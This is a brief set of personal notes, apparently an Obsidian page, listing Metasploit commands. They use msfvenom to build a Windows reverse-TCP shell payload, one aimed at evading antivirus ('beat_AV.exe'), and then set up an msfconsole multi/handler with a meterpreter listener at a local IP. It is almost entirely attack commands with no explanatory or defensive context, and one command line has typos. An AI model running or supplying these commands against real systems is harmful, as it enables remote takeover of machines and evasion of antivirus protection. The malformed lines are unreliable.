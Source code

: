 ```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.2.4LPORT=4444 -f c -b \x00\x0a\x0d -o beat_AV.exe
```
msfvenom -p windows/rshell_reverse_tcp LHOST=192.168.2.4 LPORT=4444
![[Pasted image 20221130120651.png]]

root@bt:~# msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 192.168.1.4
set LPORT 4444
exploit